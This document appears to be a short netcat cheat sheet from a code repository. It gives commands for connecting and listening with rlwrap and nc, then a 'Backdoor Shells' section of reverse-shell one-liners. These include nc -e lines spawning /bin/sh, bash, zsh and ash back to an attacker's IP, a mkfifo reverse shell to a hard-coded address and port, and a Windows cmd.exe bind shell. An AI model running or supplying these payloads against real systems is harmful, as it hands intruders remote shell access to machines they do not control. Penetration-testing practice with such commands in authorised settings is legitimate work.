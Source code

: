 # Fundamentals:
Connect to a netcat client:
- `rlwrap nc [IP Address] [port]`
Setup to a netcat Listener (use `rlwrap` for Windows systems):
- `rlwrap nc -lvp [Localport]`

More info on rlwrap: https://linux.die.net/man/1/rlwrap

# Backdoor Shells:
## Linux:

- `rlwrap nc [Your IP Address] -e /bin/sh`
- `rlwrap nc [Your IP Address] -e /bin/bash`
- `rlwrap nc [Your IP Address] -e /bin/zsh`
- `rlwrap nc [Your IP Address] -e /bin/ash`

Linux netcat reverse shell:
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f`

## Windows:

- `rlwrap nc -lv [localport] -e cmd.exe`
